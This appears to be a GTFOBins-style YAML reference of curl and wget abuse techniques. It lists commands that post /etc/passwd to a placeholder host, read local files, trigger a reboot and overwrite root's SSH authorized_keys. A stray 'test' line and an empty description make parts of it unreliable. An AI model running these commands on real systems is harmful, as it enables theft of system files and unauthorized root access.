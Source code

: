 ```yaml
---
functions:
  command:
    - description: Can be used to execute any command or file on a system, but without any arguments, and without stdout/stderr. This can be useful if you are able to write an executable to the server beforehand. The example here invokes /sbin/reboot.
      code: |
        wget --use-askpass=/sbin/reboot http://0/
  file-upload:
    - description: Send a local file to a remote server in a POST request. Note that the file will be sent as-is.
      code: |
        curl --data @/etc/passwd http://website.com/
        test
  file-read:
    - description: Read local files by using the file:// schema.
      code: |
        curl file:///etc/passwd
  file-write:
    - description: 
      code: |
        curl http://website.com/ -o /tmp/
  file-download:
    - description: Downloads a remote file via an HTTP GET request and saves it to a specific location.
      code: |
        wget --output-document=/root/.ssh/authorized_keys http://0/
---
```

